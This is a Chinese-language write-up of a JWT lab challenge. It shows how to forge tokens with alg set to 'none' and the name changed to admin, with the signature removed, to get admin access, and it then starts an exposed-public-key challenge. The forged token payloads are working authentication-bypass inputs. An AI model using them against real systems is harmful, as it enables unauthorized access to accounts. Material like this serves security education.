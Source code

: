 [https://jwt-lab.herokuapp.com](https://jwt-lab.herokuapp.com/)

#### None Algorithm \[Very Easy\]

题目提示

> Goal: Register a user and gain access to the admin user.

登录账户后会在 Cookie 发现 challenge 值是 JWT

```undefined
eyJhbGciOiJSUzI1NiJ9.eyJuYW1lIjoiZ2JiIn0.E12cFJy9NlK9_K6cl3VLqcWgqk8mrEv_GVGbfleMoIyShQht3gYoCwSSPeqvwbNNBkVhevrsaCAkSsCx2WcX2rNz3o43Yy9VINCqgwVpSUdqOq9b9bUmqtX-AJjbTj8csFlpOlzJiC9MP4Pnojtl5kSlSJSvM_oaw7EbuasZQOigCb_4mxlJlX-PlkZD9e8yDdu8KFhF59X2MsigoXacsucuBoP0XCEetDfpsceqGblpkRytXSCWQIpPfbVtbK_Xxxvkl-PGdF0exc-tr_b17HzunCLcQ2OI1N0vCKHiLs-9QcrG8Wf3ns1b9SwpSe5feHbMzcYGGZCSufyE81K_eQ
```

Header alg 改为 none，Payload name 改为 admin

```undefined
eyJhbGciOiJub25lIn0.eyJuYW1lIjogImFkbWluIn0.E12cFJy9NlK9_K6cl3VLqcWgqk8mrEv_GVGbfleMoIyShQht3gYoCwSSPeqvwbNNBkVhevrsaCAkSsCx2WcX2rNz3o43Yy9VINCqgwVpSUdqOq9b9bUmqtX-AJjbTj8csFlpOlzJiC9MP4Pnojtl5kSlSJSvM_oaw7EbuasZQOigCb_4mxlJlX-PlkZD9e8yDdu8KFhF59X2MsigoXacsucuBoP0XCEetDfpsceqGblpkRytXSCWQIpPfbVtbK_Xxxvkl-PGdF0exc-tr_b17HzunCLcQ2OI1N0vCKHiLs-9QcrG8Wf3ns1b9SwpSe5feHbMzcYGGZCSufyE81K_eQ
```

修改 alg 为 none，Payload 为 admin 后删除签名。可以生效

```undefined
eyJhbGciOiJub25lIn0.eyJuYW1lIjogImFkbWluIn0.
```

不验证 Signature 直接删（因为算法都不启用了留空字符串就行，硬要掰 [RFC7519](https://datatracker.ietf.org/doc/html/rfc7519#section-6.1) 示例就是这么写的），组成 `Header.Payload.`

```undefined
eyJhbGciOiJSUzI1NiJ9.eyJuYW1lIjogImFkbWluIn0.
```

以上三种方法最终显示结果 `Current user is: admin`。

#### Exposed Key \[Easy\]

源 JWT

```undefined
eyJhbGciOiJSUzI1NiJ9.eyJuYW1lIjoiZ2JiIn0.E12cFJy9NlK9_K6cl3VLqcWgqk8mrEv_GVGbfleMoIyShQht3gYoCwSSPeqvwbNNBkVhevrsaCAkSsCx2WcX2rNz3o43Yy9VINCqgwVpSUdqOq9b9bUmqtX-AJjbTj8csFlpOlzJiC9MP4Pnojtl5kSlSJSvM_oaw7EbuasZQOigCb_4mxlJlX-PlkZD9e8yDdu8KFhF59X2MsigoXacsucuBoP0XCEetDfpsceqGblpkRytXSCWQIpPfbVtbK_Xxxvkl-PGdF0exc-tr_b17HzunCLcQ2OI1N0vCKHiLs-9QcrG8Wf3ns1b9SwpSe5feHbMzcYGGZCSufyE81K_eQ
```

公钥

```sql
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAtpE9DLGusn7hb5gvHuP5
Y+3RjxWfsf+H42JuCSyhfzTrZz+DQreBJIFqz0Hhe3d0qmrA+qyrrZCcRubouveE
YCXthUHlIb/LwZKfeh+fhYLgvFdsR7VkJUhiEjvgpwhwfljHW7LaDfKV1q+nYBcB
QtME9pnN0jXRzT7/vdubjs49UFz5DFS38DSl5MxnqyFKUR6yCZJRhPsG8fr5A7ad
fjJGKm4O8g9K5XnxTpgu/PYLRX+UNxhSFVq0lCDBHR9QQudYbiWXvQGnAdbLDsK2
lEemTk8yNa3rmy1rAxVMZ8GqAd4x2K6juklb6q4YJkNHv9V4HYJXjRXiwHtjr4NW
EwIDAQAB
-----END PUBLIC KEY-----
```

